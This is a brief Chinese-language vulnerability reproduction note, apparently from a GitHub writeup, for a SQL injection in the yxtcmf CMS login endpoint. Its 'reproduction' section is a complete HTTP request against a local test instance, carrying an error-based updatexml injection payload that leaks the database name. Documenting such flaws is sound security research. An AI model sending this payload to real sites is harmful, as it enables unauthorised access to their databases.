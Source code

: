 可以根据路由规则，也可以根据登录功能找到触发页面

<img src=".\图片\Snipaste_2023-05-26_12-34-27.png" alt="Snipaste_2023-05-26_12-34-27" style="zoom:80%;" />

### 复现

```http
POST /yxtcmf_jb51/index.php/user/login/ajaxlogin.html HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 121
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1:8081
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:8081/yxtcmf_jb51/index.php/page/index/id/25.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=7neumfo9vl7kqgqi3jphqisjm3
Connection: close

account[0]=exp&account[1]=='123' and 1=(updatexml(1,concat(0x3a,(select database())),1))&password=adadadada&ipForget=true
```
